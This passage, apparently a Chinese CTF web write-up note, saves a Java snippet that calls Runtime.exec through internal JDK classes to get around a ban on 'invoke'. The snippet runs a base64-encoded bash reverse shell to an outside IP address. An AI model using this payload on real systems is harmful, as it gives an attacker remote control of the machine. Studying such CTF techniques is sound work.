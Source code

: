 主要的问题就是invoke被ban了，这个就不会绕了。。。看了`Dest0g3`的web师傅的writeup

```java
    Class clazz = com.sun.org.apache.xalan.internal.utils.ObjectFactory.findProviderClass("java.lang.Run" + "time", true);
    java.lang.reflect.Method m1 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "getRun"+"time", null);
    java.lang.reflect.Method m2 = com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory.getMethod(clazz, "ex"+"ec", String.class);
    Object o = com.sun.xml.internal.bind.v2.ClassFactory.create(m1);
    new com.sun.xml.internal.ws.spi.db.MethodSetter(m2).set(o,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5NzY3IDA+JjE=}|{base64,-d}|{bash,-i}");
```

nb。。。收藏一手。



# 参考链接

https://mp.weixin.qq.com/s?__biz=Mzg5NDY4NTc4NQ==&mid=2247483993&idx=1&sn=28807ae6716ae97f5c4332a3df16dcf9&chksm=c01a856ff76d0c7951ef2c2e5b132cd070d8f4e3a96c828ad73b341628afbeac21a37624b206&mpshare=1&scene=23&srcid=1116qSvOQUWGX8iJCvpYylKn&sharer_sharetime=1637046303542&sharer_shareid=2cd15dd5abca7cee0fa30d6c72437d05#rd

